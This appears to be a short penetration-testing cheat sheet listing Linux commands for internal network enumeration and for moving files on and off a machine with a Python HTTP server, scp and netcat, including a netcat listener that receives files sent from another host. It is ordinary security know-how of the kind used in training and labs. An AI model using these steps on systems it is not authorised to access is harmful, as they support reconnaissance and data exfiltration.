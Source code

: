   ## *Internal Network Enumeration:* ##
  ```bash
  #Shows ip information
  ifconfig 
  ip a

  #Show routing information
  route
  ip route

  #Arp information
  arp -a
  ip neigh

  #Show which ports are available/operational on the machine
  #We are looking for 127.0.0.1:<port num> to tell us that there is a port open only for the localhost. 
  netstat -ano
  ```
    
    
  ## *Transferring Files On and Off Linux Machines:* ##
  - ### *Python* ###
    ```bash
    # Change to the folder that the file is in.
    python -m SimpleHTTPServer 8080
    python3 -m http.server 8080

    #Then use 'wget <ip>:<port>/<file>' to download.
    ```

  - ### *SCP* ###
    ```bash
    #REQUIRES an ssh private key or a password.

    #From your machine
    scp <file> user@<remoteip>:<dest path on remote host>

    #To your machine
    scp user@<remoteip>:<path on remote host> <dest path on your machine>
    ```

  - ### *Netcat* ###
    ```bash
    #On receiving machine:
    nc -lvnp 8080 > file.out

    #On Sending Machine:
    nc <receiving machine IP> 8080 < file
    ```
